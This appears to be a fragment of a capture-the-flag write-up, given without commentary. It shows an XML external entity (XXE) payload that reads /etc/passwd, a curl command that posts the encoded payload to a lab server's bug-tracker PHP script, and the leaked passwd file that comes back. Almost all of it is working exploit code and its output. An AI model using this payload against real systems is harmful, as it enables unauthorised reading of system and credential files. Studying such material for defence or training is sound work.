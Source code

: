 ```unencoded data 
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE email [
 	<!ENTITY test SYSTEM "file:///etc/passwd">
	]>
		<bugreport>
		<title>&test;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```


```Encoded data being sent using curl.
└──╼ $curl -X POST http://10.10.11.100/tracker_diRbPr00f314.php --data "data=%50%44%39%34%62%57%77%67%49%48%5a%6c%63%6e%4e%70%62%32%34%39%49%6a%45%75%4d%43%49%67%5a%57%35%6a%62%32%52%70%62%6d%63%39%49%6b%6c%54%54%79%30%34%4f%44%55%35%4c%54%45%69%50%7a%34%4b%43%54%77%68%52%45%39%44%56%46%6c%51%52%53%42%6c%62%57%46%70%62%43%42%62%43%69%41%4a%50%43%46%46%54%6c%52%4a%56%46%6b%67%64%47%56%7a%64%43%42%54%57%56%4e%55%52%55%30%67%49%6d%5a%70%62%47%55%36%4c%79%38%76%5a%58%52%6a%4c%33%42%68%63%33%4e%33%5a%43%49%2b%43%67%6c%64%50%67%6f%4a%43%54%78%69%64%57%64%79%5a%58%42%76%63%6e%51%2b%43%67%6b%4a%50%48%52%70%64%47%78%6c%50%69%5a%30%5a%58%4e%30%4f%7a%77%76%64%47%6c%30%62%47%55%2b%43%67%6b%4a%50%47%4e%33%5a%54%35%30%5a%58%4e%30%50%43%39%6a%64%32%55%2b%43%67%6b%4a%50%47%4e%32%63%33%4d%2b%64%47%56%7a%64%44%77%76%59%33%5a%7a%63%7a%34%4b%43%51%6b%38%63%6d%56%33%59%58%4a%6b%50%6e%52%6c%63%33%51%38%4c%33%4a%6c%64%32%46%79%5a%44%34%4b%43%51%6b%38%4c%32%4a%31%5a%33%4a%6c%63%47%39%79%64%44%34%3d"
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
  </tr>
```